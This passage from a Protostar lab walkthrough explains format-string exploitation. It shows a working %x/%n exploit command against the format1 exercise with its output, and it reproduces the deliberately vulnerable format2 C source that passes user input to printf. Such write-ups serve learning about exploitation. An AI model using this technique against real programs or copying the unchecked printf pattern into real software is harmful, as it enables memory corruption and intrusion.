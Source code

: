 Now, we can replace "AAAA" with the address of `target` and the final `%x` with
`%n` to write to the address.

```shell
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/format1 $(python -c "print '\x38\x96\x04\x08' + '%x.'*134 + '%n'")
804960c.bffff5f8.8048469.b7fd8304.b7fd7ff4.bffff5f8.8048435.bffff7dc.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff678.b7eadc76.2.bffff6a4.bffff6b0.b7fe1848.bffff660.ffffffff.b7ffeff4.804824d.1.bffff660.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff678.b4f3baa6.9ea7ccb6.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6a4.8048450.8048440.b7ff1040.bffff69c.b7fff8f8.2.bffff7c1.bffff7dc.0.bffff975.bffff983.bffff98f.bffff9b0.bffff9c3.bffff9d6.bffff9e0.bffffed0.bfffff0e.bfffff22.bfffff39.bfffff4a.bfffff52.bfffff62.bfffff6f.bfffffa3.bfffffb2.bfffffcf.0.20.b7fe2414.21.b7fe2000.10.fabfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7ab.1f.bfffffe1.f.bffff7bb.0.0.0.0.0.f1000000.ddb611b5.5aeca58f.e7cb7a22.691b4515.363836.706f2f00.72702f74.736f746f.2f726174.2f6e6962.6d726f66.317461.you have modified the target :)
```

With this method of exploitation, the key is to align your input string with
the stack pointer. It is important to remember that the format string you
supply is stored on the stack as well. With `%x`, you are using 2 bytes to pop
4 bytes from the stack. There are other format string parameters you can use
as well to win the "race" if you can only provide a limited number of input
bytes.

# format 2

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/